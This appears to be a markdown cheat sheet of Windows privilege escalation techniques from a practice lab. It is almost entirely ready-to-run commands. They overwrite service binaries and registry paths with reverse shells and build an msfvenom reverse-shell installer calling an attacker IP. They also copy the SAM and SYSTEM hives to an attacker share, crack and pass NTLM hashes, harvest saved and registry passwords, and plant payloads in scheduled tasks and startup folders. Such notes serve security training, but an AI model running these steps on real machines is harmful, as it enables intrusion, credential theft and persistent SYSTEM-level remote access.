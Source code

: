 
## Service Exploits -

### Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the application u want using - 
`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
daclsvc is the application in this example
![](https://i.imgur.com/gs7ez84.png)
The output is like this and the important thing here are the **Change_config and Start and Stop**

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
`sc qc daclsvc`

![](https://i.imgur.com/OKxSWtn.png)
Here we can just simply point the **BINARY_PATH_NAME** to our reverse shell so that when the service starts it will run that binary giving us a reverse shell.
`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

---
### Unquoted Service Path

In this when the path of the file has spaces or its unquoted we could use it to our advantage as this exploits windows way of handling file paths - 
`sc qc <application>`
![](https://i.imgur.com/BfPck5d.png)

You can now use Accesschk to see whether you have write permissions to that directory - 
`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" `
![](https://i.imgur.com/it0RjCg.png)
The way to exploit this vulnerability is to place a malicious executable somewhere in the service path, and<strong> name it in a way that starts with the first few letters of the next directory in the service path</strong>. When the service starts, it will then execute the evil binary and grant remote SYSTEM access.

Now we can copy the file - 
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

---
### Weak Registry Permissions 

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

---
### Insecure Service Executables

Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

---
## Registry Exploits -

### AutoRuns - 

Query the registry for AutoRun executables:
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

---
### Always Install Elevated 

Query the registry for AlwaysInstallElevated keys:
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

---
### Registry 
The registry can be searched for keys and values that contain the word "password":
`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:
`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):
`winexe -U 'admin%password' //10.10.1.241 cmd.exe`

---
### Saved Creds
List any saved credentials:
`cmdkey /list`

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

---
### SAM 
The SAM and SYSTEM files can be used to extract user password hashes.
Transfer the SAM and SYSTEM files to your Kali VM:

`copy C:\Windows\Repair\SAM \\10.10.10.10\kali\`
`copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\`

On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:
```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```
Crack the admin NTLM hash using hashcat:
`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

---
### Pass the Hash

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:
`pth-winexe -U 'admin%hash' //10.10.1.241 cmd.exe`

---
### Scheduled Tasks
The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:
`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

---
### Insecure GUI Apps

Run any application if you can that runs with Admin/System Privileges and then you could try to open a file in that app and in the file path bar you could place the command prompt path and get an admin shell.

---
### Startup Apps
Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:

`C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`

Now you could create a startup application or shortcut for the reverse shell and when the system is restarted you would get a reverse shell.

---
https://github.com/itm4n/PrintSpoofer

